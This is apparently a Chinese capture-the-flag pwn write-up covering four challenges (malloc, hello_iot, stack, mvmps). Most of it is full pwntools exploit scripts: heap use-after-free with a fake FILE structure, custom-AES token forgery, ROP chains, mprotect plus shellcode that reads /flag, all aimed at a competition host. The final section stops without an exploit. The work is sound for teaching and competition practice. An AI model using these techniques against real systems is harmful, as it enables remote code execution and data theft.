# ycb-pwn

‍

## malloc

‍

UAF 漏洞，可以泄露elf地址，还可以构造任意地址申请。

‍


```py
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '45.40.247.139:30521'.replace(' ',':')
binary = './pwn'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'),ssl=True)
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(arch='amd64', log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
brva 0x1999
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))
io = start([])

def add(idx,size):
    ru("=======================\n")
    sl('1')
    ru("Index\n")
    sl(str(idx))
    ru('size\n')
    sl(str(size))

def rm(idx):
    ru("=======================\n")
    sl('2')
    ru("Index\n")
    sl(str(idx))

def edit(idx,size,text):
    ru("=======================\n")
    sl('3')
    ru("Index\n")
    sl(str(idx))
    ru('size\n')
    sl(str(size))
    s(text)


def show(idx):
    ru("=======================\n")
    sl('4')
    ru("Index\n")
    sl(str(idx))

add(0,0x70)
add(1,0x70)
add(2,0x70)
add(3,0x70)

edit(0,0x70,b'A'*0x70)
edit(1,0x70,b'B'*0x70)

rm(2)
#rm(3)

add(4,0x70)

rm(3)
rm(2)

show(4)
elf_base = uu64(r(6)) - 0x5380
lss('elf_base')

target = elf_base + 0x40c0 - 0x10
edit(4,8,p64(target))

add(5,0x70)
add(6,0x70)

show(6)
libc_base = uu64(r(6)) - libc.sym['_IO_2_1_stdout_']
libc.address = libc_base
lss('libc_base')


target2 = elf_base + 0x6280

n = 0

add(0xc-n,0x60)
add(0xd-n,0x60)
rm(0xc-n)
add(0xe-n,0x60)
rm(0xd-n)
rm(0xc-n)

edit(0xe-n,8,p64(target2 - 0x10))

add(0xf-n,0x60)
add(0x10-n,0x60)


pay = p64(elf_base + 0x6200) + p64(0x200)
edit(0x10,0x10,pay)

pay = p64(libc.sym['_IO_2_1_stdout_']) + p64(0x200)
edit(0x10,0x10,pay)


fake_IO_addr = libc.sym['_IO_2_1_stdout_']

pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['setcontext'] + 61,
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: fake_IO_addr,                # rdi  #read fd
    0x70: 0,     # rsi  #read buf
    0x78: fake_IO_addr,     # rsi2  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0x90: 0x400,     # rdx2  #read size
    0x98: 0x23,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['setcontext'] + 294, # RCE2 ogg
    0xb0: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')


#gdb.attach(io,gdbscript)
edit(0,len(pay),pay)


pause()

libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
m = 0
try:
    rdx = libc_rop.find_gadget(['pop rdx','ret'])[0];m = 1
except:
    rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]; m = 2
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr # ret to addr
buf = orw_rop_addr + 0xa0 + m*3*8
orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(buf) + p64(rsi) + p64(0) + p64(rdx) + p64(0)*m + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')

sl(orw_rop)


#rm(0)
#rm(2)
#add(3,0x70)
#rm(3)
#rm(2)
#show(2)
#edit(2,0x8,p64(0x4141))
#add(4,0x70)
#edit(4,0x70,b'H'*0x70)
#rm(2)

#for i in range(0x10):
#    add(i,0x68)
#    edit(i,0x68,p8(0x41+i)*0x68)
#
#rm(0xE)
#add(0,0x70)
#edit(0,0x10,'HACK')

#show(0)
##edit(0,0x70,b'A'*0x70)

#edit(0,0x70,b'A'*0x70)
#edit(1,0x70,b'B'*0x70)
#
#edit(0xf,0x70,b'T'*0x70)
#
#for i in range(0xf):
#    add(8,0x70)
#
##rm(7)
#add(8,0x70)
#add(8,0x70)
#edit(8,0x70,b'i'*0x70)

#for i in range(0x10):
#    edit(i,0x70,p8(0x41+i)*0x70)


#pay = flat({
#},filler=b'\x00')

# libc.address = libc_base
# system = libc.sym['system']
# bin_sh = next(libc.search(b'/bin/sh'))
itr()

```

‍

‍

‍

## hello_iot

‍

登录页面有个 token 需要 加密 然后 传进去，程序 解密后需要和原本的 token 一样



```c

#include <stdio.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
// 自定义S-Box表 (byte_406160)
static const unsigned char s_box[256] = {
    0x29, 0x40, 0x57, 0x6E, 0x85, 0x9C, 0xB3, 0xCA, 0xE1, 0xF8, 0x0F, 0x26, 0x3D, 0x54, 0x6B, 0x82,
    0x99, 0xB0, 0xC7, 0xDE, 0xF5, 0x0C, 0x23, 0x3A, 0x51, 0x68, 0x7F, 0x96, 0xAD, 0xC4, 0xDB, 0xF2,
    0x09, 0x20, 0x37, 0x4E, 0x65, 0x7C, 0x93, 0xAA, 0xC1, 0xD8, 0xEF, 0x06, 0x1D, 0x34, 0x4B, 0x62,
    0x79, 0x90, 0xA7, 0xBE, 0xD5, 0xEC, 0x03, 0x1A, 0x31, 0x48, 0x5F, 0x76, 0x8D, 0xA4, 0xBB, 0xD2,
    0xE9, 0x00, 0x17, 0x2E, 0x45, 0x5C, 0x73, 0x8A, 0xA1, 0xB8, 0xCF, 0xE6, 0xFD, 0x14, 0x2B, 0x42,
    0x59, 0x70, 0x87, 0x9E, 0xB5, 0xCC, 0xE3, 0xFA, 0x11, 0x28, 0x3F, 0x56, 0x6D, 0x84, 0x9B, 0xB2,
    0xC9, 0xE0, 0xF7, 0x0E, 0x25, 0x3C, 0x53, 0x6A, 0x81, 0x98, 0xAF, 0xC6, 0xDD, 0xF4, 0x0B, 0x22,
    0x39, 0x50, 0x67, 0x7E, 0x95, 0xAC, 0xC3, 0xDA, 0xF1, 0x08, 0x1F, 0x36, 0x4D, 0x64, 0x7B, 0x92,
    0xA9, 0xC0, 0xD7, 0xEE, 0x05, 0x1C, 0x33, 0x4A, 0x61, 0x78, 0x8F, 0xA6, 0xBD, 0xD4, 0xEB, 0x02,
    0x19, 0x30, 0x47, 0x5E, 0x75, 0x8C, 0xA3, 0xBA, 0xD1, 0xE8, 0xFF, 0x16, 0x2D, 0x44, 0x5B, 0x72,
    0x89, 0xA0, 0xB7, 0xCE, 0xE5, 0xFC, 0x13, 0x2A, 0x41, 0x58, 0x6F, 0x86, 0x9D, 0xB4, 0xCB, 0xE2,
    0xF9, 0x10, 0x27, 0x3E, 0x55, 0x6C, 0x83, 0x9A, 0xB1, 0xC8, 0xDF, 0xF6, 0x0D, 0x24, 0x3B, 0x52,
    0x69, 0x80, 0x97, 0xAE, 0xC5, 0xDC, 0xF3, 0x0A, 0x21, 0x38, 0x4F, 0x66, 0x7D, 0x94, 0xAB, 0xC2,
    0xD9, 0xF0, 0x07, 0x1E, 0x35, 0x4C, 0x63, 0x7A, 0x91, 0xA8, 0xBF, 0xD6, 0xED, 0x04, 0x1B, 0x32,
    0x49, 0x60, 0x77, 0x8E, 0xA5, 0xBC, 0xD3, 0xEA, 0x01, 0x18, 0x2F, 0x46, 0x5D, 0x74, 0x8B, 0xA2,
    0xB9, 0xD0, 0xE7, 0xFE, 0x15, 0x2C, 0x43, 0x5A, 0x71, 0x88, 0x9F, 0xB6, 0xCD, 0xE4, 0xFB, 0x12
};

// 轮常量表 (byte_404030)
static const unsigned char rcon[10] = {
    0x01, 0x02, 0x04, 0x08, 0x10, 0x20, 0x40, 0x80, 0x1B, 0x36
};

// 字节替换函数 (加密)
void sub_bytes_enc(unsigned char *state) {
    for (int i = 0; i < 16; i++) {
        state[i] = s_box[state[i]];
    }
}

// 行移位函数 (加密)
void shift_rows_enc(unsigned char *state) {
    unsigned char temp;
    
    // 第1行左移1字节
    temp = state[1];
    state[1] = state[5];
    state[5] = state[9];
    state[9] = state[13];
    state[13] = temp;
    
    // 第2行左移2字节
    temp = state[2];
    state[2] = state[10];
    state[10] = temp;
    temp = state[6];
    state[6] = state[14];
    state[14] = temp;
    
    // 第3行左移3字节
    temp = state[3];
    state[3] = state[15];
    state[15] = state[11];
    state[11] = state[7];
    state[7] = temp;
}

// 列混合辅助函数 (对应 sub_4015B7)
unsigned char gf_multiply_2(unsigned char a) {
    return (a << 1) ^ (0x1B & -(a >> 7));
}

// 列混合辅助函数 (对应 sub_4015DF)  
unsigned char gf_multiply_3(unsigned char a) {
    return a ^ gf_multiply_2(a);
}

// 列混合函数 (加密) - 对应 sub_401727
void mix_columns_enc(unsigned char *state) {
    unsigned char tmp[16];
    
    for (int i = 0; i < 4; i++) {
        int offset = i * 4;
        tmp[offset] = gf_multiply_2(state[offset]) ^ 
                     gf_multiply_3(state[offset + 1]) ^ 
                     state[offset + 2] ^ 
                     state[offset + 3];
                     
        tmp[offset + 1] = state[offset] ^ 
                         gf_multiply_2(state[offset + 1]) ^ 
                         gf_multiply_3(state[offset + 2]) ^ 
                         state[offset + 3];
                         
        tmp[offset + 2] = state[offset] ^ 
                         state[offset + 1] ^ 
                         gf_multiply_2(state[offset + 2]) ^ 
                         gf_multiply_3(state[offset + 3]);
                         
        tmp[offset + 3] = gf_multiply_3(state[offset]) ^ 
                         state[offset + 1] ^ 
                         state[offset + 2] ^ 
                         gf_multiply_2(state[offset + 3]);
    }
    
    memcpy(state, tmp, 16);
}

// 轮密钥加函数
void add_round_key(unsigned char *state, const unsigned char *round_key) {
    for (int i = 0; i < 16; i++) {
        state[i] ^= round_key[i];
    }
}

// 密钥扩展函数 - 对应 sub_401D37
void key_expansion(const unsigned char *key, unsigned char *round_keys, int nk, int nr) {
    int i, j;
    unsigned char temp[4];
    unsigned char *w = round_keys;
    
    // 复制初始密钥
    for (i = 0; i < 4 * nk; i++) {
        w[i] = key[i];
    }
    
    // 扩展密钥
    for (i = nk; i < 4 * (nr + 1); i++) {
        // 获取前一个字
        for (j = 0; j < 4; j++) {
            temp[j] = w[4 * (i - 1) + j];
        }
        
        // 每nk个字执行一次变换
        if (i % nk == 0) {
            // 循环左移
            unsigned char t = temp[0];
            temp[0] = temp[1];
            temp[1] = temp[2];
            temp[2] = temp[3];
            temp[3] = t;
            
            // S-Box替换
            for (j = 0; j < 4; j++) {
                temp[j] = s_box[temp[j]];
            }
            
            // 轮常量异或
            temp[0] ^= rcon[i / nk - 1];
        }
        
        // 生成新字
        for (j = 0; j < 4; j++) {
            w[4 * i + j] = temp[j] ^ w[4 * (i - nk) + j];
        }
    }
}

// 主加密函数
void aes_encrypt(unsigned char *data, const unsigned char *key) {
    unsigned char round_keys[176]; // 11轮 * 16字节 = 176字节
    unsigned char state[16];
    int round;
    
    // 密钥扩展
    key_expansion(key, round_keys, 4, 10);
    
    // 复制数据到状态
    memcpy(state, data, 16);
    
    // 初始轮密钥加
    add_round_key(state, round_keys);
    
    // 主循环9轮
    for (round = 1; round <= 9; round++) {
        sub_bytes_enc(state);
        shift_rows_enc(state);
        mix_columns_enc(state);
        add_round_key(state, round_keys + 16 * round);
    }
    
    // 最终轮
    sub_bytes_enc(state);
    shift_rows_enc(state);
    add_round_key(state, round_keys + 16 * 10);
    
    // 复制回数据
    memcpy(data, state, 16);
}

// 示例使用：生成登录所需的密文
int main() {
    unsigned char plaintext[16] = {0};
    read(0,plaintext,0x10);
    unsigned char key[16] = "0123456789ABCDEF";
    
    printf("Plaintext (16 bytes of 0xFF):\n");
    for (int i = 0; i < 16; i++) {
        printf("%02X ", plaintext[i]);
    }
    printf("\n\n");
    
    // 执行加密
    aes_encrypt(plaintext, key);
    
    printf("Ciphertext (for login):\n");
    for (int i = 0; i < 16; i++) {
        printf("%02X", plaintext[i]);
    }
    printf("\n");
    
    return 0;
}

```

‍

泄露 libc 地址



‍

白给的 栈溢出，利用 上面泄露的 libc 地址  构造 rop 执行 `system('cat /flag>/home/ctf/work.html')`​ ,  然后等待服务重启，再访问 `work.html` 即可 拿到 flag





```py
from pwn import *

s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '127.0.0.1:9999'.replace(' ',':')
attack = '45.40.247.139:19682'.replace(' ',':')

binary = ''
import requests
import re
#io = remote(*attack.split(':'))
libc = ELF('./libc-2.31.so')
url = 'http://127.0.0.1:9999/'
url = 'http://45.40.247.139:19682/'

sess = requests.session()
t1 = sess.get(url + 'login.html').text

key = re.findall('<strong>(.*?)</strong>',t1)[0]
print(key)

io = process('./a.out')
sl(key)
ru('Ciphertext (for login):\n')
keyc = rl().decode().strip()
io.close()
print(keyc)

sess.post(url + 'login',data='ciphertext='+keyc)

print(sess.get(url + 'work.html').text)
pause()
pay = 'index=-160'
leak = sess.post(url + 'log',data=pay).text


libc_base = int(re.findall('<pre>(.*?)</pre>',leak)[0],16) - libc.sym['srand']
libc.address = libc_base
lss('libc_base')


mov_rdi = libc_base + 0x0000000000057b5a # mov qword ptr [rdi], rsi ; ret
pop_rsi = libc_base + 0x000000000002601f # pop rsi ; ret
pop_rdi = libc_base + 0x0000000000023b6a # pop rdi ; ret
pay  = b'AAAA='
pay += 0x40 * b'a'
pay += p64(0)
#pay += p64(0x414243)

cmd = b'cat /flag>>/home/ctf/work.html'
target = 0x406280

for i in range(0,len(cmd),8):
    pay += p64(pop_rdi) + p64(target+i)
    pay += p64(pop_rsi) + cmd[i:i+8].ljust(8,b'\x00')
    pay += p64(mov_rdi)

pay += p64(pop_rdi) + p64(target)
pay += p64(pop_rdi+1)
pay += p64(libc.sym['system'])
pay += b'YCB2025'


sess.post(url + 'work',data=pay)

#io = remote(*attack.split(':'))
#pay = 'YCB2025'
#data = f'''POST /work HTTP/1.1
#Content-Length: {len(pay)}
#
#{pay}
#'''
#io.send(data)
#io.interactive()

```

‍

‍

## stack

‍

第一次 可以溢出1字节来到这里 泄露 main 函数地址，



加密逻辑还是比较简单的



‍

‍

关键的 gadget, 利用这里 可以 控制 rdi 寄存器 ，从而利用 puts 泄露 libc 地址



‍

有沙箱，绕过也很简单

```py
from pwn import *
from ctypes import CDLL
cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '45.40.247.139:20569'.replace(' ',':')
binary = './Stack_Over_Flow'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'),ssl=True)
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(arch='amd64', log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
#libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
brva 0x001656
brva 0x016A4
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))
io = start([])
cdl.srand(int(time.time()))

t = 0
for i in range(3):
    t = cdl.rand() % 5

#pay = flat({
#},filler=b'\x00')

pay = b'A' * 0x108 + p8(0x5F)
s(pay)
ru('magic number:')
elf_base = int(rl()) // t - 0x16B0
elf.address = elf_base
lss('elf_base')

pause()

rsp = elf_base + 0x0000000000001497
def add_rsp():
    return p64(rsp) + b'\x00' * 0x38

vuln = elf_base + 0x161F
gadget1 = elf_base + 0x1489
puts = elf.plt['puts']
#pay = b'A' * 0x108 + 
pay  = b''
pay  = pay.ljust(0x100,b'\x00')
pay += p64(elf_base + 0x4000 + 0x800)
pay += add_rsp() * 0x10
pay += p64(gadget1)
pay += p64(0)
pay += p64(elf.got['puts'])
pay += b'\x00' * 0x28
pay += p64(puts)
pay += p64(vuln)
s(pay)
#itr()
ru("Good luck!\n")
libc_base = uu64(r(6)) - libc.sym['puts']
lss('libc_base')


libc.address = libc_base
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]; m = 2
syscall = libc_rop.find_gadget(['syscall','ret'])[0]


lss('m')


#gdb.attach(io,gdbscript)
pay  = b'A' * 0x108
pay += p64(rdi) + p64(elf_base)
pay += p64(rsi) + p64(0x1000)
pay += p64(rdx) + p64(7) * 2
pay += p64(rax) + p64(0xa)
pay += p64(syscall)
pay += p64(rdi) + p64(0)
pay += p64(rsi) + p64(elf_base)
pay += p64(rdx) + p64(0x100) * 2
pay += p64(rax) + p64(0)
pay += p64(syscall)
pay += p64(elf_base)


s(pay)
pause()
sc  = asm(shellcraft.openat(-100,'/flag',0))
sc += asm(shellcraft.sendfile(1,'rax',0,0x50))
s(sc)
# libc.address = libc_base
# system = libc.sym['system']
# bin_sh = next(libc.search(b'/bin/sh'))
itr()

```

‍

‍

## mvmps

‍

在类型3指令中：

- ​`param1` 存储寄存器索引（1字节）
- ​`param2` 存储立即数值（4字节）

‍



reg6（stack 偏移） 为负数的时候 可以把stack 干到 got 表，



‍



‍

逆向起来还是比较麻烦的，关键用到的opcode 也就几个，

